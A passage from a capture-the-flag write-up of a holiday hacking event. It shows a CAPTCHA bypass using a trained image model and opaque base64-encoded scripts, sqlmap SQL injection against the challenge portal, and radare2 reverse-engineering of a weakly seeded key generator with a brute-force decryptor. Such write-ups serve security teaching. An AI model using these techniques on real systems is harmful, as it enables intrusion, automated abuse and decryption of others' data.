/home/ubuntu/archive/c/6/e/1/7/c6e175f5b8048c771b3a3fac5f3295d2032524af
EOF
----
+
. Download artifacts
+
[source, bash, options="nowrap"]
----
# Create artifact directory
[/tmp/ctf-06.I4z]$ mkdir artifacts && cd artifacts

# Downlaod the artifacts
[/tmp/ctf-06.I4z/artifacts]$ for url in $(cat ../urls.txt); do curl -OL "${url}"; done
----
+
. Look for messages to Kent
+
NOTE: I've only showed the relevant content
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-06.I4z/artifacts]$ grep -ir 'kent'
ff1ea6f13be3faabd0da728f514deb7fe3577cc4:...<dc:description>Kent you are so unfair. And we were going to make you the king of the Winter Carnival.</dc:description>...
----

image::main/06/13-end.png[Congrats screen]

*Answer*: `Kent you are so unfair. And we were going to make you the king of the Winter Carnival.`

=== 07 - Get Access To The Steam Tunnels

Location: `Dorm`

Difficulty: `3/5`

image::main/07/00-location.png[Room in the dorm]

.Objective
----
Gain access to the steam tunnels. Who took the turtle doves? Please tell us their first and last name. For hints on achieving this objective, please visit Minty's dorm room and talk with Minty Candy Cane.
----

==== Solution

[quote, Minty Candycane]
Maybe you'll see someone hopping around with a key here on campus.

The goal of this challenge is to decode a key's bitting via an image of the key.

When you first enter the room there is a NPC character that leaves into another room after a few moments.

NOTE: This character has the key you are looking for on their belt.

. Open the browser's network tools tab
+
image::main/07/01-tools.png[Network tool]
+
. Enter the room
. Locate the NPC's asset load network event
+
image::main/07/02-get.png[Krampus asset network event]
+
. Save the asset
+
----
https://2019.kringlecon.com/images/avatars/elves/krampus.png
----
+
image::main/07/03-krampus.png[Krampus asset, height=100, width=100]
+
. Cleaned the picture up with GIMP
+
image::main/07/04-key.png[Plain key]
+
. Decoded the key by looking at the heights relative to each other
+
NOTE: *Key Bitting*: `122520`
+
image::main/07/07-make-key.png[Crerating a key]
+
image::main/07/05-122520.png[My key]

image::main/07/06-win.png[Win screen]

*Answer:* `Krampus Hollyfeld`

==== Chat

.Chat log
----
(Minty Candycane; Had to complete Holiday Hack Trail)
- You made it - congrats!
- Have you played with the key grinder in my room? Check it out!
- It turns out: if you have a good image of a key, you can physically copy it.
- Maybe you'll see someone hopping around with a key here on campus.
- Sometimes you can find it in the Network tab of the browser console.
- Deviant has a great talk on it at this year's Con.
- He even has a collection of key bitting templates for common vendors like Kwikset, Schlage, and Yale.
----

=== 08 - Bypassing the Frido Sleigh CAPTEHA

Location: `TBD`

Difficulty: `4/5`

image::main/08/00-location.png[Me next to Krampus]

.Objective
----
Help Krampus beat the Frido Sleigh contest. For hints on achieving this objective, please talk with Alabaster Snowball in the Speaker Unpreparedness Room.
----

WARNING: On my initial run through of the CTF I completed this challenge before 07, so I did not have access to the files listed below, I ended up manually building my training data and model without the nice `capteha_api.py` file or the training data.

==== Links

* https://fridosleigh.com/[Frido Sleigh]
+
image::main/08/01-site.png[Screenshot of the website]
+
* https://mega.nz/#!Q0pnAYaB!ht9-69waSJUjorEiMybCebgCmajMsknA4NmHdx3wH20[capteha_api.py]
** Skeleton solution script that I missed :)
+
NOTE: SHA256: `322d960882a69d0966f1a4e10cb14d35e6f0f7edfc90ac37bdbeb564bdc00fae`
+
* https://mega.nz/#!o55xUQ7I!dCIIiFp81T7B8RrKDHNCZUB9tS2zQElZpW-FSkQq3lo[capteha_images.tar.gz]
** Data to train your model with; which I also missed...
+
NOTE: SHA256: `c8b2be64449d4418dddb662c1c97f38343912952d53df6f77c5d87661449ff55`

==== Solution

. Review the website
. Review the CAPTEHA api call
+
NOTE: If you deal with json data a lot, https://github.com/tomnomnom/gron[gron] can make your data so much more readable.
+
[source, bash, options="nowrap"]
----
[~]$ curl -s 'https://fridosleigh.com/api/capteha/request' \
       | gron \
         | sed -re 's,^(json\.images\[[[:digit:]]+\]\.base64 = ").+(";),\1REMOVED\2,' \
           | tail -n 10
json.images[97].base64 = "REMOVED";
json.images[97].uuid = "40468a9a-e588-11e9-97c1-309c23aaf0ac";
json.images[98] = {};
json.images[98].base64 = "REMOVED";
json.images[98].uuid = "4a7b97a2-e588-11e9-97c1-309c23aaf0ac";
json.images[99] = {};
json.images[99].base64 = "REMOVED";
json.images[99].uuid = "4b5934cf-e588-11e9-97c1-309c23aaf0ac";
json.request = true;
json.select_type = "Presents, Ornaments, and Santa Hats";

----
+
** Pretty simple response format of
+
----
{
  images: [{"uuid": "", "base64": ""}, * 100],
  request: bool,
  select_type: "List, of, three"
}
----
+
** `images.base64` is a `PNG` encoded in base64
** `images.uuid` is a uuid
** `select_type` is the list of images the CAPTEHA system is expecting
+
. Build a working directory
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-08.XXX)"

# Create a python virtualenv
[/tmp/ctf-08.h8U]$ python2 -m virtualenv .venv

# Activate venv
[/tmp/ctf-08.h8U]$ source .venv/bin/activate
(.venv) [/tmp/ctf-08.h8U]$
----
+
. Gather training data
** Build a tool to collect images for the model
+
[source, bash, options="nowrap"]
----
# Install deps
(.venv) [/tmp/ctf-08.h8U]$ pip install 'requests>=2.22.0'

# Extract my tool
(.venv) [/tmp/ctf-08.h8U]$ base64 -d << 'EOF' | gunzip --stdout | tee download-images.py
H4sICCkeCV4CA2Rvd25sb2FkLWltYWdlcy5weQBlUstuxCAMvOcrWHphpQqkarWHlXJrvwOR4CRu
G6BA9qGq/14IyWar+uTY45mxw9OOiCl40aARYM7E3eJgzUtV4eisj6RRAY6H9es9WLPmNqyZh68J
QgxVVWnoyKjQsP2pIimwI8ZmLHcqDhyDRs8oFziqHgJdUDkSZFQfkPrhEVDNAE/quwrvITI6xOjC
SYjOo7bhE7AfeGtHoRyKVrkIgxLLRCKZOSA4awIkqrwG/7RKB+Z5hGtcZIrorFWwRevu5WGjUtvs
e4WJ+u3agotoDaOvqGeghxbwDESZ2zK0W7fqrC8lguYfoVFjtjqXi41pQr2YyNEcD3/75Vc9IBy2
cfKZpbR4GtHQWg0sZRvugnEg1oHZDi++s9oPd6anPPkcVWS5Umdb+2dCLw3dExVItzmeV+IXjxHY
Ir1ePuUmvY50Oykzg5SkrgmVMr8VKWkhKQ+n+gXDU5CxkwIAAA==
EOF

# Run the downlaoder a number of times
(.venv) [/tmp/ctf-08.h8U]$ python download-images.py

# Check number of files
(.venv) [/tmp/ctf-08.h8U]$ find ./images | wc -l
1000
----
+
image::main/08/02-have-pics.png[Showing I have images downloaded]
+
** Manually categorize all of these images :(
+
.Folders for each type
image::main/08/03-folders.png[Folders of picture types]
+
.All clean and uniform
image::main/08/04-neat.png[Showing each folder only has images of that type]
. Build a model
** I wanted to try Google's https://teachablemachine.withgoogle.com/[Teachable Machine] for this
+
image::main/08/05-tm.png[New project screen]
+
** I went with the `Image Project`
** I created a class for each of the image types
+
image::main/08/06-classes.png[Picture of all classes]
+
** Named all 6 classes `candy_canes, christmas_trees, ornaments, presents, santa_hats, and stockings`
** Uploaded photos into their classes
+
image::main/08/07-full.png[]
+
** Clicked `Train Model` button
+
image::main/08/08-training.png[]
+
** Exported my model
+
image::main/08/09-export.png[]
+
. Solve the CAPTEHA
** Run my custom script
+
[source, bash, options="nowrap"]
----
# Install deps
(.venv) [/tmp/ctf-08.h8U]$ pip install \
                                       'tensorflow>=2.0.0' \
                                       'Pillow>=6.2.1'

# Copy model to working dir
(.venv) [/tmp/ctf-08.h8U]$ cp /path/to/keras_model.h5 .

# Extract my script
(.venv) [/tmp/ctf-08.h8U]$ base64 -d << 'EOF' | gunzip --stdout | tee not-human.py
H4sICAUoCV4CA25vdC1odW1hbi5weQCdVt1v4zYMf/dfwbkPp2yp0/a621AgD+s+DgWKbdjdWxAY
is00utqST5LbeMP97yMlf6XXvSwPgUT+RInkj6TPvoFV6+xqp/QK9RM0nT8YfZUkqm6M9bCTDt9d
DztlhtUnZ/Sw1m3ddMPG4ucWnXfD3qN2xu4r85w9opUu2VtTw59399AD7mr5gEly/9Ptr/cfYA2b
BOiXOqm9hIP0Ll1GSSF12QH94yhy3hSPSj9MmINVztfSgbc44YzVskY92Wosun6/TZIz+EU5uasQ
XKFIrPaqAG289Mpo2BsLRSWt8l0SXM0c+ryxSnvTMMIJ1zZs0a0/2hYXbPDeyBL8AaE2JVZJ+Cfn
XkYjCwqXVQTPw1qkQRE32eH7dAmFqRtV4fo3WTm2bnNHd/HT1mO4sw9RJFjP8gGTNcZ5kR68b9zN
arW3qjSuQvVwyMjuSjZqVcjG40GuelvpIiklxX4dkhye5oTNPB79gnlB6XKkZEz2gGQ7itJBmVeU
Ak4kRZZjF4SgdFy4m5ABzgdhgihaaVtVkg1W7t5dn+oiC3ttowrfWj4dxRnBSywoXoJWETM9JJNN
g7oUgm9cDocXJ4/NK+RY0r+YhCGN79GHLAaXzJ7WzLYg6qMGykFlDLOQmZJERG7l80mMHFZY+Nx3
DZIbPYhogJys6UwWRGJATLogz1xTKTK2hNHG5vxyO6J4k1lsKlmgSKlcgKFp8ORni9JjeLm0VnbR
GwRLTPDgDrIhpYE9YgnM7KAMVOwpfAYfSfKGgvTgD2+AEkvFsKP3k6GeFJ1puT6haf1kI96mHBko
0aOtlaYrdl1Q7pWlwBJFVSg1IglL+9e0TUUZCzIKckHJhsts4GasRF0G8yKcWIvTlC7h6uq6/3u7
WELJ0V/Hg1SC0r+9iqEx+gmpE8mqGqLSO0Qu/PX+FlzwpINnRYhnYx/p0LPyhwClwj9/QE2R8uRX
LNtE0QsvAvsfl/A0kj887WbG0F3n0eXKMN1Ndsu7uz/E05zEkUmhS2amGSk6nJxBh5oJRCqiUyIl
B5gBX6GIKE79jUIMQVrMb41ZG8IsXQxz0PXGzuB3Y2tZkY0pZLG2B3mZnxoTsy3Z5HSI03TACi6v
fsguFnAOl8M9Yy8dOsmcWQHDnNgoLoTX746OwXdrNnoGto08U3qPFnWBCSWxpM4Qe2rMYS8SbHsx
A0R6hQcTdpJn3rBGnFCqJwi1p2A7tJEwAMP5QDByBxq0BY8jOnlOZUZsD1TbIbSOSEWoz60qHquO
CkbHWFRyRxPF04AkmPN0Ekjp3SwXL97MLXlDt4kOvoXLC4ox87Njch63YX3k9aueUitPwo1EOV3i
kW0ds7AUtTyK42LxnxborGk99YS8L91/vprwNzQsXpnyM/E06efYF9N+ppom/kw4Tv0o+9LPp2UM
Zu8ZOYBEylDPYu7zIhZuDPwa4gfLZnZ0G/RFyy195nGEbCObecqNdcrRIdpuLsaTw7RiGBFJakdt
382GaWj0fU+kaMQn9bCMJjQfnt8dYNvRVO68ZQNrmgxp9skoLfrDBOEvhTFHaZRTqE5Ofvn/nxeu
3dXK00Qa7+E7+TNq/LqIu/Q8JYb+eDHsp8sKHrToeKTmoTipZ/0LOsUMC8IKAAA=
EOF

# Run the script and extract the JWT from the response
(.venv) [/tmp/ctf-08.h8U]$ python not-human.py
{"data":"You are not a human!","request":true}

--------------------------------------------------------------------------------
{'session': 'LONG_JWT'}
----
+
. Submit form a bunch of times
+
NOTE: You need to use a real email address as a key is emailed to you.
+
NOTE: When you extract the script for this section there are two variables that you need to fill in; `JWT` and `EMAIL`
+
----
# Extract my script
(.venv) [/tmp/ctf-08.h8U]$ base64 -d << 'EOF' | gunzip --stdout | tee send-form.py
H4sICIYrCV4CA3NlbmQtZm9ybS5weQBVUU1PwzAMvedXhHDppNECJ1RpEiCBKBpcNoljlLXuGq1N
QuIOJsR/Jx+sjBwS+T0/x/Y7P6PF6GyxkaoAtafmgJ1W14TIwWiL1ML7CA4dIc9va7qg7LFaLvn6
qVrx6pWRh5e7ahnggx7trQXRX8AgZJ/XemCEkAZa6mOVzUpC/am13knwgmPdPCH+9WIEnsKMOXBO
asXm1P87i1p3KlslPvulpjIO8FgjPSmhESi8/CsG4bBW7LWVCI6VlNWjkU1tR1V3bP6XI7YQ2Kub
y3/oRo8Y8J1EPJwycXTPxK2c4EoMsdC9FaoJQ0XqO94fneyBru0I5SSwvlWXG+0wYx2icWVRtFY2
2vUgt11YbiGM9Iah9Q3E6WaT2lipMLM5wicm1AjnDSSypZyHXjinC+8Z58Eazln6OflEfgAdzs9M
EgIAAA==
EOF

# Edit the script to fill in your information

# Run script; Ctrl+C when you see the message about already winning
(.venv) [/tmp/ctf-08.h8U]$ python send-form.py
...
Entries for email address REDACTED no longer accepted as our systems show your email was already randomly selected as a winner! Go check your email to get your winning code. Please allow up to 3-5 minutes for the email to arrive in your inbox or check your spam filter settings.
----

image::main/08/10-email.png[Winner email]

*Answer:* `8Ia8LiZEwvyZr2WO`

==== Chat

.Chat log
----
(Krampus - PRE)
- Hello there! I’m Krampus Hollyfeld.
- I maintain the steam tunnels underneath Elf U,
- Keeping all the elves warm and jolly.
- Though I spend my time in the tunnels and smoke,
- In this whole wide world, there's no happier bloke!
- Yes, I borrowed Santa’s turtle doves for just a bit.
- Someone left some scraps of paper near that fireplace, which is a big fire hazard.
- I sent the turtle doves to fetch the paper scraps.
- But, before I can tell you more, I need to know that I can trust you.
- Tell you what – if you can help me beat the Frido Sleigh contest (Objective 8), then I'll know I can trust you.
- The contest is here on my screen and at fridosleigh.com.
- No purchase necessary, enter as often as you want, so I am!
- They set up the rules, and lately, I have come to realize that I have certain materialistic, cookie needs.
- Unfortunately, it's restricted to elves only, and I can't bypass the CAPTEHA.
- (That's Completely Automated Public Turing test to tell Elves and Humans Apart.)
- I've already cataloged 12,000 images and decoded the API interface.
- Can you help me bypass the CAPTEHA and submit lots of entries?

(Krampus - POST)
- Hello there! I’m Krampus Hollyfeld.
- You did it! Thank you so much. I can trust you!
- To help you, I have flashed the firmware in your badge to unlock a useful new feature: magical teleportation through the steam tunnels.
- As for those scraps of paper, I scanned those and put the images on my server.
- I then threw the paper away.
- Unfortunately, I managed to lock out my account on the server.
- Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?
- I give you permission to hack into it, solving Objective 9 in your badge.
- And, as long as you're traveling around, be sure to solve any other challenges you happen across.
----

=== 09 - Retrieve Scraps of Paper from Server

Location: `Offline`

Difficulty: `4/5`

.Objective
----
Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.
----

==== Links

* https://studentportal.elfu.org/[Elf University]
+
image::main/09/00-website.png[]
* https://mega.nz/#!wsx20ChA!_dLMsePbp28JTRAeqWrUq7dD9YrKRev8L-VwyMpOK_c[krampus-images.zip]
** Copy of raw files required scraped from the database
+
NOTE: SHA256: `57c6593afa23fa94c81cdea76c6f54f1d3ada760825d949e8fcd9f8d3c2e68f0`

==== Solution

. Look around website
** Noticed form submits first reach out to `https://studentportal.elfu.org/validator.php` and retrieve a token
*** The token behaves like a CSRF token
*** The token is sent along with the form submission
. Decided to test the application check form for SQL injection vulnerabilities
+
[source, bash, options="nowrap"]
----
# https://studentportal.elfu.org/application-check.php?elfmail=EMAIL&token=CSRF_TOKEN
[~]$ python sqlmap.py --tables -u 'https://studentportal.elfu.org/application-check.php?elfmail=EMAIL&token=CSRF_TOKEN' --eval='import requests; token=requests.get("https://studentportal.elfu.org/validator.php").text;'
...
Database: elfu
[3 tables]
+---------------------------------------+
| applications                          |
| krampus                               |
| students                              |
+---------------------------------------+
...

# Dump krampus table
[~]$ python sqlmap.py --dump -T 'krampus' -u 'https://studentportal.elfu.org/application-check.php?elfmail=EMAIL&token=CSRF_TOKEN' --eval='import requests; token=requests.get("https://studentportal.elfu.org/validator.php").text;'
...
+----+-----------------------+
| id | path                  |
+----+-----------------------+
| 1  | /krampus/0f5f510e.png |
| 2  | /krampus/1cc7e121.png |
| 3  | /krampus/439f15e6.png |
| 4  | /krampus/667d6896.png |
| 5  | /krampus/adb798ca.png |
| 6  | /krampus/ba417715.png |
+----+-----------------------+
...
----
+
. Download images
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-09.XXX)"

# Download images
[/tmp/ctf-09.Ahk]$ curl -sOL 'https://studentportal.elfu.org/krampus/0f5f510e.png' ; \
                   curl -sOL 'https://studentportal.elfu.org/krampus/1cc7e121.png' ; \
                   curl -sOL 'https://studentportal.elfu.org/krampus/439f15e6.png' ; \
                   curl -sOL 'https://studentportal.elfu.org/krampus/667d6896.png' ; \
                   curl -sOL 'https://studentportal.elfu.org/krampus/adb798ca.png' ; \
                   curl -sOL 'https://studentportal.elfu.org/krampus/ba417715.png' ;
----
+
. Piece images together
+
image::main/09/01-finished.png[]

*Answer:* `Super Sled-o-matic`

==== Chat

.Chat log
----
(Krampus - POST)
- Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.
- We’ve gotta stop whomever is behind it!
- I managed to find this protected document on one of the compromised machines in our environment.
- I think our attacker was in the process of exfiltrating it.
- I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?
- There are some smart people in the NetWars challenge room who may be able to help us.
----

=== 10 - Recover Cleartext Document

Location: `Offline`

Difficulty: `5/5`

image::main/10/00-location.png[]

.Objective
----
The Elfscrow Crypto tool is a vital asset used at Elf University for encrypting SUPER SECRET documents. We can't send you the source, but we do have debug symbols that you can use.

Recover the plaintext content for this encrypted document. We know that it was encrypted on December 6, 2019, between 7pm and 9pm UTC.

What is the middle line on the cover page? (Hint: it's five words)

For hints on achieving this objective, please visit the NetWars room and talk with Holly Evergreen.
----

==== Links

* https://mega.nz/#!osYG2QYZ!nfpgBDAsR1nK7XTqz2siaEcwoKr7FhiHGiOhmk_urt8[elfscrow.exe]
** File encrypting application
+
NOTE: SHA256: `7f4207827e732d459e493a72507becfe24b21e479e1057f12ff321c036cb791f`
+
* https://mega.nz/#!s4JiiSjK!BQj_WiTigOctw0V7_x2HOOamad1jr7tT0UHUUZei1ao[elfscrow.pdb]
** Debug symbols for `elfscrow.exe`
+
NOTE: SHA256: `bf9cb71ce8699cb6d1a39760b9a7a9e330389b303ad710b8572bcde29efcc34c`
+
* https://mega.nz/#!tsJwGSyA!d2CBomVaYk8l4ydluaMXDllr5dV-gqqk1PFa24P39yo[ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc]
** File encrypted by `elfscrow.exe`
NOTE: SHA256: `9486b115183de64d052b2a5e56f41a037d9e44ad498a6ad2329d7ef2150c5662`
+
* https://mega.nz/#!xwADQC5a!K_TNXocQY-q9h8z13k-IMc_cMWm16OmohIESpDS5QRs[ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf]
** Decrypted version of `ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc`
+
NOTE: SHA256: `9c64d6a3b5d39867b0d5b67d71a0a7cba48449300841ecce0eb136c05edcc562`

==== Solution

. Create working directory
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-10.XXX)"

# Copy challenge files into working directory
[/tmp/ctf-10.wCu]$ cp /path/to/files/10/* .

# Create virtualenv
[/tmp/ctf-10.wCu]$ python2 -m virtualenv .venv

# Activate virtualenv
[/tmp/ctf-10.wCu]$ source .venv/bin/activate

# Install deps
(.venv) [/tmp/ctf-10.wCu]$ pip install 'pycryptodome>=3.9.4'
----
+
. Load `elfscrow.exe` in https://rada.re/n/[r2]
+
[source, bash, options="nowrap"]
----
(.venv) [/tmp/ctf-10.wCu]$ r2 elfscrow.exe
# Load the provided PDB
[0x004037f7]> idp elfscrow.pdb

# Analyse the file
[0x004037f7]> aaa

# List the functions
[0x004037f7]> afl
0x00401000  104 1903 -> 1872 pdb.int___cdecl__getopt_internal_int__char_____const__char_const____struct_option_const____int____int
0x00401770   64 1297 -> 1260 sub.s:_illegal_option_____c_770
0x00401c90    1 35           pdb.int___cdecl_getopt_long_only_int__char_____const__char_const____struct_option_const____int
0x00401cc0    4 203          pdb.void___cdecl_fatal_error_char
0x00401d90    1 42           pdb.void___cdecl_super_secure_srand_int
0x00401dc0    1 39           pdb.int___cdecl_super_secure_random_void
0x00401df0    5 99           pdb.void___cdecl_generate_key_unsigned_char___const
0x00401e60    1 18           fcn.00401e60
0x00401e80    5 68           pdb.void___cdecl_to_hex_unsigned_char___const__char___const
0x00401ed0    5 79           pdb.void___cdecl_from_hex_char___const__unsigned_char___const
0x00401f20   25 758          pdb.void___cdecl_store_key_int__unsigned_char___const
0x00402220    1 18           pdb.void___cdecl_retrieve_key_int__unsigned_char___const__char
0x00402540    5 126          pdb.void___cdecl_print_hex_char____unsigned_char____unsigned_int
0x004025c0    8 154          pdb.unsigned_char_____cdecl_read_file_char____unsigned_long_int
0x00402660    6 103          pdb.void___cdecl_write_file_char____unsigned_char____unsigned_int
0x004026d0    1 15           pdb.void___cdecl_do_encrypt_int__char____char
0x00402a00    1 15           pdb.void___cdecl_do_decrypt_int__char____char____char
0x00402d80    1 45           pdb.void___cdecl_usage_char
0x00402db0   86 1942 -> 1943 pdb._main
0x00403546    3 15   -> 122  pdb.___security_check_cookie_4
0x004037f7   14 10   -> 202  entry0
0x00403801    1 107          pdb.___report_gsfailure
0x00403958    1 6            pdb.__amsg_exit
0x0040395e    3 139  -> 145  pdb.__onexit
0x004039f4    1 6            loc.004039f4
0x004039fa    1 9            fcn.004039fa
0x00403a03    1 23           pdb._atexit
0x00403a66    1 6            pdb.__XcptFilter
0x00403a70    4 53           pdb.__ValidateImageBase
0x00403ab0    7 68           pdb.__FindPESection
0x00403b00    1 39           pdb.__IsNonwritableInCurrentImage
0x00403bbe    1 6            pdb.__initterm
0x00403bc4    1 6            pdb.__initterm_e
0x00403bcc    1 38           pdb.__SEH_prolog4
0x00403c11    1 20           pdb.__SEH_epilog4
0x00403c4a    3 43           pdb.__setdefaultprecision
0x00403c78    8 150  -> 152  pdb.___security_init_cookie
0x00403d0e    1 6            pdb.__crt_debugger_hook
0x00403d14    1 6            pdb.void___cdecl_terminate_void
0x00403d1a    1 6            pdb.__unlock
0x00403d20    1 6            pdb.___dllonexit
0x00403d26    1 6            pdb.__lock
0x00403d2c    1 6            pdb.__except_handler4_common
0x00403d32    1 6            pdb.__invoke_watson
0x00403d38    1 6            pdb.__controlfp_s

# NOTE: This function looks important
#       - pdb.void___cdecl_generate_key_unsigned_char___const

[0x00401e37]> pdf @pdb.void___cdecl_generate_key_unsigned_char___const
/ (fcn) pdb.void___cdecl_generate_key_unsigned_char___const 99
|   pdb.void___cdecl_generate_key_unsigned_char___const (int arg_8h);
|           ; var int local_4h @ rbp-0x4
|           ; arg int arg_8h @ rbp+0x8
|              ; CALL XREF from 0x00402737 (pdb.void___cdecl_do_encrypt_int__char____char + 103)
|           0x00401df0      55             push rbp
|           0x00401df1      8bec           mov ebp, esp
|           0x00401df3      51             push rcx
|           0x00401df4      6810434000     push str.Our_miniature_elves_are_putting_together_random_bits_for_your_secret_key ; 0x404310 ; "Our miniature elves are putting together random bits for your secret key!\n\n"
|           0x00401df9      ff15cc404000   call qword [0x00805ecb]     ; [0x805ecb:8]=-1
|           0x00401dff      83c040         add eax, 0x40               ; '@'
|           0x00401e02      50             push rax
|           0x00401e03      ff15c8404000   call qword [0x00805ed1]     ; [0x805ed1:8]=-1
|           0x00401e09      83c408         add esp, 8
|           0x00401e0c      6a00           push 0
|           0x00401e0e      e84d000000     call fcn.00401e60
|           0x00401e13      83c404         add esp, 4
|           0x00401e16      50             push rax
|           0x00401e17      e874ffffff     call pdb.void___cdecl_super_secure_srand_int
|           0x00401e1c      83c404         add esp, 4
|           0x00401e1f      c745fc000000.  mov dword [local_4h], 0
|       ,=< 0x00401e26      eb09           jmp 0x401e31
|       |      ; JMP XREF from 0x00401e4d (pdb.void___cdecl_generate_key_unsigned_char___const)
|      .--> 0x00401e28      8b45fc         mov eax, dword [local_4h]
|      :|   0x00401e2b      83c001         add eax, 1
|      :|   0x00401e2e      8945fc         mov dword [local_4h], eax
|      :|      ; JMP XREF from 0x00401e26 (pdb.void___cdecl_generate_key_unsigned_char___const)
|      :`-> 0x00401e31      837dfc08       cmp dword [local_4h], 8     ; [0x8:4]=-1 ; 8
|      :,=< 0x00401e35      7318           jae 0x401e4f
|      :|   0x00401e37      e884ffffff     call pdb.int___cdecl_super_secure_random_void
|      :|   0x00401e3c      0fb6c8         movzx ecx, al
|      :|   0x00401e3f      81e1ff000000   and ecx, 0xff
|      :|   0x00401e45      8b5508         mov edx, dword [arg_8h]     ; [0x8:4]=-1 ; 8
|      :|   0x00401e48      0355fc         add edx, dword [local_4h]
|      :|   0x00401e4b      880a           mov byte [rdx], cl
|      `==< 0x00401e4d      ebd9           jmp 0x401e28
|       |      ; JMP XREF from 0x00401e35 (pdb.void___cdecl_generate_key_unsigned_char___const)
|       `-> 0x00401e4f      8be5           mov esp, ebp
|           0x00401e51      5d             pop rbp
\           0x00401e52      c3             ret

# Looking into the function that "seeds" the random number generator
[0x00401d90]> pdf @pdb.void___cdecl_super_secure_srand_int
/ (fcn) pdb.void___cdecl_super_secure_srand_int 42
|   pdb.void___cdecl_super_secure_srand_int (int arg_8h);
|           ; arg int arg_8h @ rbp+0x8
|              ; UNKNOWN XREF from 0x00401e17 (pdb.void___cdecl_generate_key_unsigned_char___const)
|              ; CALL XREF from 0x00401e17 (pdb.void___cdecl_generate_key_unsigned_char___const)
|           0x00401d90      55             push rbp
|           0x00401d91      8bec           mov ebp, esp
|           0x00401d93      8b4508         mov eax, dword [arg_8h]     ; [0x8:4]=-1 ; 8
|           0x00401d96      50             push rax
|           0x00401d97      68e8424000     push str.Seed____d          ; 0x4042e8 ; "Seed = %d\n\n"
|           0x00401d9c      ff15cc404000   call qword [0x00805e6e]     ; [0x4040cc:8]=0x55c0000055b2 ; pdb.__imp____iob_func
|           0x00401da2      83c040         add eax, 0x40               ; '@'
|           0x00401da5      50             push rax
|           0x00401da6      ff15c8404000   call qword [0x00805e74]     ; [0x805e74:8]=-1
|           0x00401dac      83c40c         add esp, 0xc
|           0x00401daf      8b4d08         mov ecx, dword [arg_8h]     ; [0x8:4]=-1 ; 8
|           0x00401db2      890d2c604000   mov dword [0x00807de4], ecx ; [0x807de4:4]=-1
|           0x00401db8      5d             pop rbp
\           0x00401db9      c3             ret

# Now onto pdb.int___cdecl_super_secure_random_void
[0x00401dc0]> pdf @pdb.int___cdecl_super_secure_random_void
/ (fcn) pdb.int___cdecl_super_secure_random_void 39
|   pdb.int___cdecl_super_secure_random_void ();
|              ; UNKNOWN XREF from 0x00401e37 (pdb.void___cdecl_generate_key_unsigned_char___const)
|              ; CALL XREF from 0x00401e37 (pdb.void___cdecl_generate_key_unsigned_char___const)
|           0x00401dc0      55             push rbp
|           0x00401dc1      8bec           mov ebp, esp
|           0x00401dc3      a12c60400069.  movabs eax, dword [0x43fdc0690040602c] ; [0x43fdc0690040602c:4]=-1
|           0x00401dcc      0300           add eax, dword [rax]
|           0x00401dce      05c39e2600     add eax, 0x269ec3
|           0x00401dd3      a32c604000a1.  movabs dword [0x40602ca10040602c], eax ; [0x40602ca10040602c:4]=-1
|           0x00401ddc      00c1           add cl, al
|           0x00401dde      f8             clc
|           0x00401ddf      1025ff7f0000   adc byte [0x00409de4], ah
|           0x00401de5      5d             pop rbp
\           0x00401de6      c3             ret
----
+
. Create psudo version of what the app does
+
[source, bash, options="nowrap"]
----
# pdb.void___cdecl_generate_key_unsigned_char___const translated
RANDOM_SEED = time.now()       ; epoch time
key = [0, 0, 0, 0, 0, 0, 0, 0] ; 8 byte buffer to store encryption key
for i in range(0, 8):          ; generate 8 random ints and stuff them into a byte at index i
    key[i] = byte(get_random())

# get_random translated
global SEED
SEED = ((SEED * 0x343fd) + 0x269ec3)
return SEED >> 0x10 & 0x7fff

# do_encrypt
c = DES(key, iv=0)
ciphertext = c.encrypt(plaintext)
----
+
. Create tool to bruteforce decrypt the seed value
+
[source, bash, options="nowrap"]
----
# Extract my tool
(.venv) [/tmp/ctf-10.wCu]$ base64 -d << 'EOF' | gunzip --stdout | tee brute.py
H4sICBJsCV4CA2JydXRlLnB5AJ1UXW/TMBR9z6+4M4IlMGVZx0ZBKg/0AyEBAyp4GZPlJjerWWtH
rrN2Qvx3rh23yT5AiDwkjn3vOefee5JHe3BYr8zhTKpDVNdQ3di5Vr0okstKGwtWLjEqjV7C0NxU
VqdDWc3RQDgejadRFE3H4xEM4KNWSG8FlrBCLLgRqtDLGCudzwfuMHkVAV2XCz0TC3BZ/j2kS2Vj
R5e6W5yALEFpCz4dcLHCZpn4HIO2NiqwXaINZNyB/J0m9s+nkG2Onx9PRgk8o2Xv9OV4eNxBbqJf
v6azowye0OPFZDLZ8Sk0wiK/wpv75d2vvaObMuhsTTrOndS7yj3TZJJAqQ1wagnQ6SXG2QH0k4st
AmUzlv7QUsXn+dzEmyZ+4+IDwUW3TW4zSC8wd3OMaecACmFFEJ03Yx24iaYK102Ae/lwNhrz4Zvh
AcjrQcy+b7KMUfv6yS2GJj/dwnvkQDkztUXSl2NcCTsPhGtp56ArVH7zAJiZsQTECsrmvBVlcWNJ
WJkaFEXcJ1h3VupaFbwxR7Bes22CY3a9Ozp5cXJ60u9n1ES/Pj3NsixpaZqOPjDUztzcFYrDgqI7
fRzsejloBbdZZGP2+NNowrybSdUOplXgi9XKSlXjbvN2hf4ZBUCHRKwtgBGSvo/xJsfKSq1iNpKF
jyqlKkDAtVjQBqXssVtj63CEaS0FuSo0x02GW81RBcW8lAt039COmKWH40X59QuuUJh8/l7MVtO6
QjNdYHH2QViZf65lfjW1wti3tSzw21HaS6uiTAmUeZjkgXne8cx9EU1SZdxX04o5f3cBEwcEdh5+
F7QSFtZkrHpFk7MaApAP8fXs//SRv/ZZSpRL0UF0V+OFbqe2J0nQ/4Ch7yv+d4sHwD/Z7QGjdsQl
f7BiK4/938AYFbDeFtBrKyh76dpIi/FOb3c2fiRnta1q6yppa3ItYXf+5eRszpVYIucwoH8c586N
